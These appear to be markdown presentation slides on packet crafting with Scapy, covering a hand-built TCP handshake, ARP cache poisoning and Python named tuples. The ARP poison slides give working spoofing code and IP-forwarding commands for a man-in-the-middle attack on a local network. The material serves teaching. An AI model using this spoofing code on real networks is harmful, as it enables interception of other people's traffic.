 http://biot.com/capstats/bpf.html

---

## Three-way Handshake

- on client:
    - `iptables -t filter -I OUTPUT -p tcp --sport 10000 --tcp-flags RST RST -j DROP`
    - `tcpdump -ni any port 8000 -S`

---

```python
me, sport = '192.168.1.100', 10000
them, dport = '192.168.1.69', 8000
#
ip = IP(src=me, dst=them)
syn = TCP(sport=sport, dport=dport, flags='S', seq=1000)
synack = sr1(ip/syn)
ack = TCP(sport=sport, dport=dport, flags='A', seq=synack.ack, ack=synack.seq+1)
send(ip/ack)
```

---

## ARP Poison

- poison ARP cache of two devices
- tell each device attacker MAC is the other's address
- man-in-the-middle: monitor communications


- mac: `sysctl -w net.inet.ip.forwarding=1`
- linux: `echo 1 > /proc/sys/net/ipv4/ip_forward`

---

## ARP Poison code

```python
mymac = get_if_hwaddr('en0')
victim = '192.168.1.100'
gateway = '192.168.1.254'
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=victim, pdst=gateway)
sendp(packet)
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=gateway, pdst=victim)
sendp(packet)
```

---

## Python Named Tuples

- immutable
- reference values like object properties
- more readable code
